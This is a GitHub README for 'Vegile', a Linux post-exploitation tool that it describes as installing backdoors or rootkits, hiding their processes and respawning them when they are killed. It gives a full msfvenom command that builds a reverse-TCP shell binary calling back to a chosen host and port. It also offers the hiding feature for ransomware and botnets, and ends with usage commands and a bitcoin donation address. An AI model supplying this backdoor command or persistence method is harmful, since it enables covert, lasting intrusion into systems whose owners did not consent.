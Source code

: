 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

Vegile is a tool for post exploitation echniquesin linux. Post Exploitation techniques will ensure that we maintain some level of access and can potentially lead to deeper footholds into our targets trusted network.

## :book: How it works

This tool will setting up your backdoor/rootkits
when backdoor already setup it will be hidden your spesisifc process ,unlimited your session in metasploit and transparent.
Even when it killed,it will re-run again . There always be a procces which while run another process,
So we can assume that this procces is unstopable like a Ghost in The Shell

## READ THIS
- right now i just tested backdoor with msfvenom command using reverse_shell [ its work ] 
  msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR
- for hidden process you can use for rootkits,backdoor,ransom and botnet { sh,python,perl,exe and binary }.

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)

## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  [backdoor/rootkit]
- Vegile -u / --unlimited [backdoor/rootkit]
- Vegile -h / --help 


## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- www.github.com/gianlucaborello to give a reference 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***

